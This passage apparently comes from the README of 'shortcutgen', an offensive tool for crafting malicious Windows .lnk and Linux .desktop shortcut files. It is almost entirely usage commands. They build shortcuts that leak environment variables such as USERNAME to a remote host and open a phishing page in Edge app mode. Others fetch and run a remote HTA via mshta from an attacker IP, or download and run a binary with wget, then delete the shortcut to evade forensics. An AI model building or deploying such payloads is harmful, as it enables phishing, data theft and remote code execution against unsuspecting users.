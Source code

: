 ```
$ shortcutgen -p lnk -i "192.168.1.4" -s "Documents" -n "document.docx" -o payload.lnk
```

Even a rouge hostname can trigger the DNS.

```
$ shortcutgen -p lnk -i "fileserver" -s "Documents" -n "document.docx" -o payload.lnk
```

To exfiltrate environment variables.

```
$ shortcutgen -p lnk -i "fileserver" -e "COMPUTERNAME,USERNAME,NUMBER_OF_PROCESSORS" -s "Documents" -n "document.docx" -w "minimized" -o payload.lnk
```

### 0x02 - Phishing

You can send a targeted phishing campaign using chromium-based web browsers in application mode from [mrd0x's blog post](https://mrd0x.com/phishing-with-chromium-application-mode/).

```
$ shortcutgen -p lnk -c "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" -a "--app=http://192.168.1.4" --icon "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,0" -o Office365.lnk
```

### 0x03 - Defense Evasion

#### Anti-Forensics

You can of course self delete the payload after execution.

```
$ shortcutgen -p lnk -c "C:\Windows\System32\cmd.exe" -a "/c mshta.exe http[s]://<attacker_IP>/payload.hta & del %CD%\payload.lnk" --icon "C:\path\to" -w "minimized" --workingdirectory "C:\\Users\\Public\\" -o payload.lnk
```

Including `.desktop` file.

```
$ shortcutgen -p desktop -n "Document File" -c "wget" -a "wget -qO payload --no-check-certificate http://192.168.1.4/payload; chmod +x payload; ./payload& disown;sleep 2; rm \$(pwd)/payload.desktop" --workingdirectory "/tmp/" -w "false" -o payload.desktop
```

## Limitations

- The **HotKey** has not been implemented in `wine` so I can't make a feature for persistence. So much potential with this shortcut is gone :(

- A minor limitation that `wine` lacks choosing file formats as custom icons.

- Creating polyglot is not possible with `wine`'s own `copy` command. Only Windows native `copy` command works.

## FAQ (Frequent Asked Questions)
